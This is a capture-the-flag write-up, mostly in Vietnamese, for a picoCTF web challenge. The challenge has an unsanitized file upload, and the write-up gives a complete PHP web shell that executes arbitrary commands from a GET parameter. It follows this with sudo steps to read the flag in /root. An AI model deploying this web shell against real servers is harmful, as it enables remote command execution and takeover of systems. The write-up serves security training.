

# n0s4n1ty 1

Web, 100 points

## Description:

> A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

## Hint:

> 1.  File upload was not sanitized
> 2.  Whenever you get a shell on a remote machine, check sudo -l

## Solution:

Đây là 1 trang web có chức năng uploads 1 tập tin bất kì mà không kiểm tra đầu vào nội dung và phần mở rộng

Ta có thể tải lên 1 shell php để có thể thực thi lệnh để đọc được flag trong **root**

**shell.php**

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```



kiểm tra `sudo -l` ta thấy có thể thực hiện bất cứ lệnh nào

`sudo ls /root` ta sẽ thấy được tệp flag.txt

`sudo cat /root/flag.txt`

```
picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}
```
